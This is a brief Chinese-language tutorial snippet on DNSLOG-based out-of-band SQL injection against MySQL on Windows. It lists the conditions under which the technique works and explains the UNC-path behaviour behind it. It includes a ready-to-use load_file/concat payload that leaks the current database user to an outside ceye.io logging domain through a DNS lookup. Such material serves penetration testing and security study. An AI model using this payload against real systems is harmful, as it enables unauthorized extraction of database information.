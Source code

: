 应用场景：

- 三大注入无法使用
- 有文件读取权限及secure-file-priv无值。
- 不知道网站/目标文件/目标目录的绝对路径
- 目标系统为Windows

payload: load_file(concat('\\\\',(select user()),'.xxxx.ceye.io\xxxx'))
为什么Windows可用，Linux不行？这里涉及到一个叫UNC的知识点。简单的说，在Windows中，路径以\\开头的路径在Windows中被定义为UNC路径，相当于网络硬盘一样的存在，所以我们填写域名的话，Windows会先进行DNS查询。但是对于Linux来说，并没有这一标准，所以DNSLOG在Linux环境不适用。注：payload里的四个\\\\中的两个\是用来进行转义处理的。

